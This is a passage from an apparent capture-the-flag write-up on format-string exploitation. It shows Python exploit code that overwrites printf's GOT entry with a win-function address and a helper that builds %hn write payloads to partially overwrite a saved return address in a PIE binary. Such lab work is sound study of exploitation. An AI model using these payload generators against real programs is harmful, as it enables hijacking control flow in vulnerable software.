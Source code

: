 ```python
    printf_got_offset = rsp_to_format_offset + format_to_printf_addr_offset
    
    # Overwrite got entry with value of our goal function
    buf_2 = b''
    buf_2 += gen_write_format(printf_got_offset, binary_win_addr, binary_win_addr_size)
    buf_2 += b'A' * (format_size - len(buf_2))
    buf_2 += struct.pack('<Q', printf_got)
    buf_2 += struct.pack('<Q', printf_got + 1)
    buf_2 += struct.pack('<Q', printf_got + 2)

    p0.send(buf_2)
    p0.recvuntil(b'what you got :P\n')
    p0.send(b'C')
    p0.interactive()
```

## Challenge 8

Now the binary is PIE. We can overwrite LSBs of the saved return address on the stack. \
Recall we cannot directly overwrite the return address, as we need to dereference it through a pointer containing its address. \
A main obstacle within this challenge, is that our input isn't being transferred directly to `printf`, but instead it is being concatenated to some prior string. Hence, in order to obtain a full write primitive, we have to write within 2-byte granularity, as we can no longer write bytes below the value of the prefix string length.

```python
def gen_write_format(rsp_to_format_offset, offset, value, prev_val = 0):
    ''' 
    This method assumes the goal addresses to-be-written resides within 'offset' bytes.
    value is the value to be written, and value_size denotes its byte count.

    In case we're dealing with a format vuln that already printed certain characters, we can handle this by substracting 'sub' amount
    '''
    position = 6 + int(offset / 8)

    payload = b''
    # First trick - trigger a write of 0, of length 8 bytes. That would clear all bits.
    # payload += b'%' + str(position).encode() + b'$ln'

    value_bytes = list(struct.unpack('<HHHH', struct.pack('<Q', value)))
    value_bytes_sorted = sorted(value_bytes)

    for val in value_bytes_sorted:
        if val == 0:
            continue
        val_index = value_bytes.index(val)
        if (val != prev_val):  # Handle duplication, no need to write more bytes
            payload += b'%' + str(val - prev_val).encode() + b'c'
        payload += b'%' + str(position + val_index).encode() + b'$hn'
        prev_val = val
        value_bytes[val_index] = b'\xffffffff'  # Invalidate byte, to handle duplications


    payload += ((8 - ((len(payload) + rsp_to_format_offset) % 8)) % 8) * b'B'
    assert(offset - rsp_to_format_offset == len(payload))  # Offset to address buffer should correspond to the total length of the generated buffer. Otherwise, there's an error

    return payload


def gen_read_format(offset):
```